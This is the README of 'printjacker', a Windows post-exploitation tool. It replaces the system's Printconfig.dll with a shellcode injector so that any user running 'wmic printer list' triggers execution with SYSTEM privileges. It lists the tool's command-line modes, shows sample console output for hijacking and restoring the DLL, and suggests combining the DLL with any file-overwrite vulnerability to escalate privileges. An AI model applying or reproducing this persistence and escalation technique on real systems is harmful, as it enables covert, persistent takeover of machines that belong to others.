

# printjacker

Printjacker is a post-exploitation tool that creates a persistence mechanism by overwriting *Printconfig.dll* with a shellcode injector. The persistence mechanism can be invoked via executing `wmic printer list` command with any user. The shellcode will be executed with **SYSTEM** privileges. Details: [POST.md](POST.md)



## Usage
- Change the shellcode in **dllmain.cpp**
- Compile Printjacker with VS2019 (tested). New *printconfig.dll* will be compiled and added to resources of *Printjacker.exe*.
- Execute with Admin privileges.

```
.\printjacker.exe [-find] | [-hijack] | [-execute] | [-schedule] | [-restore]
    -find     : Find the directory of Printconfig.dll
    -hijack   : Overwrite Printconfig.dll with shellcode injector and copy original to Printconfig_orig.dll
    -execute  : Hijack Printconfig.dll and execute "wmic printer list" as the current user
    -schedule : Hijack printconfig.dll and schedule "wmic printer list"
    -restore  : Restore Printconfig.dll to original
```

- Hijack *Printconfig.dll* and execute the payload
```
.\printjacker.exe -execute
# Printjacker - Hijack Printconfig.dll
# Author: millers-crossing
-------------------------------------------------
[*] PrintConfig.dll is found: c:\windows\system32\DriverStore\FileRepository\prnms003.inf_amd64_9d6cd193d2dd61fd\Amd64
...
...
[+] Resource is found. Trying to modify the target file...
[+] Original Dll is copied to Princonfig_orig.dll
[+] Printconfig.dll is successfully modified!
[*] Working in Execute mode
[*] Trying to execute payload by using "wmic printer list"...
...
```

- Restore the original *printconfig.dll* 
```
.\printjacker.exe -restore
# Printjacker - Hijack Printconfig.dll
# Author: millers-crossing
-------------------------------------------------
[*] PrintConfig.dll is found: c:\windows\system32\DriverStore\FileRepository\prnms003.inf_amd64_9d6cd193d2dd61fd\Amd64
[+] Printconfig.dll is restored from Printconfig_orig.dll
```

- If you have only file overwrite privilege without command execution, you can still use compiled *printconfig.dll* to gain SYSTEM privileges. 
```
.\printjacker.exe -find
# Printjacker - Hijack Printconfig.dll
# Author: millers-crossing
-------------------------------------------------
[*] PrintConfig.dll is found: c:\windows\system32\DriverStore\FileRepository\prnms003.inf_amd64_9d6cd193d2dd61fd\Amd64
```
- Overwrite the original printconfig.dll with your favourite file overwrite vulnerability, then execute `wmic printer list` with any user.

## References
Thanks to great works by @SandboxBear, @tiraniddo, @aionescu, @yarden_shafir, @decoder_it, @spotheplanet ...

- https://decoder.cloud/2019/11/13/from-arbitrary-file-overwrite-to-system/ 
- https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html
- https://github.com/ionescu007/faxhell/blob/master/ualapi/dllmain.c
- https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection

## TODO
- Generate pipename from UUID
- Compatibility for x86
